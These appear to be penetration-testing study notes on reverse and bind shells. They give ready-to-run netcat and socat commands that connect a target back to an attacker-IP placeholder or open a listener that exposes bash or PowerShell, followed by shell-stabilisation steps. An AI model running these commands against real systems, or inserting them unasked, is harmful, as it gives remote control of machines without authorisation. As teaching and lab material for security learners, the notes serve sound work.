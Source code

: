 ### What is the shell
- Shells are used when interfacing with a command line environment.
- To force remote systems to execute arbitrary code.e.g webserver, we can do so by obtaining a shell during initial access, that runs on the target.

- **Reverse shell** - The attacker forces the remote server to send command line access him/her
- **Bind shell** - The attacker opens up a port on the server which we can connect to in order to execute further commands.

### Tools
- There are various tools we can use to receive reverse shells and to send bind shells.
1. Netcat
2. Socat
3. Metasploit - multi/handler
4. Msfvenom

### Types of shells
#### 1. Reverse shells
- The target is forced to execute code that connects back to your computer.
- A listener would be used to receive the connection
- Recommended to bypass firewals that prevent one from connecting to arbitrary ports on the target.
> example:
- On attacking machine execute:
```
nc -lvnp 4444
```
- On target execute:
```
nc <Attacker IP> <Port> -e /bin/bash
````
#### 2. Bind shells
- Is when the code executed on target is used to start a listener attached to a shell directly on the target.
- This would then be opened to the internet, meaning you can connect to the port the code has opened and obtain an rce.
> example:
- On target execute:
```
nc -lvnp <port> -e "cmd.exe"
```
- -l - listener
- -v - request verbose ouput
- -n - not resolve hostnames or use dns
- -p - port specification will follow
- On attacking machine execute:
```
nc <target ip> <port>
```

#### Interactivity
1. **Interactive shells** - Allow one to interact with the programs after executing them.e.g. ssh
2. **Non-interactive shells** - One is limited to using programs that do not require user interaction in order to run properly.

### Netcat stabilization
#### Technique one: python
1. Spawn an interactive shell
```
python3 -c 'import pty;pty.spawn("\bin\bash")';
```
2. Step 2
```
export TERM=xterm
```
- This gives us access to term commands such as **clear**
3. Finally back the shell using Ctrl+z.
- Back in our terminal use
```
stty raw -echo; fg
```
- This turns off our own terminal echo(gives us access to tab autocompletes, arrow keys, ctrl+c to kill processes, etc). It then foregrounds the shell, thus completing the process

#### Technique two: rlwrap
- rlwrap gives us acess to history, tab, autocompletion and arrow keys immediately it receives a shell.
- Doesn't come by default, so install it:
```
sudo apt install rlwrap
```
- To use rlrap, we invoke the listerner as:
```
rlwrap nc -lvnp <port>
```
**nb**useful for windows shell which are often difficult to stabilize

#### Technique three: socat
- Use netcatas an intial stepping stone into a more fully featured socat shell.
- Transfer socat requiring no dependancies to target.

### Socat
##### Socat Reverse Shells
- On attacking machine:
```
socat TCP-L:<port> -
```
- On a windows target:
```
socat TCP:<attacker ip>:<port> EXEC:powershell.exe,pipes
```
- **pipes** is used to force powershell to use unix style standard input and output.
- On a linux target:
```
socat TCP:<attacker ip>:<port> EXEC:"bash -li"
```

##### Socat Bind Shells
- On a linux target:
```
socat TCP-L:<port> EXEC:"bash -li"
```
- On a windows target:
```
socat TCP-L:<port> EXEC:powershell.exe,pipes
```
- On attacking machine:
```
socat TCP:<Target-IP>:<port> -
```
- For a stable socat shell(where target is linux), use the listener:
```
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```
- Whereas on the target use:
```
socat TCP:<Attacker-IP>:<port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

##### Socat Encrypted Shells
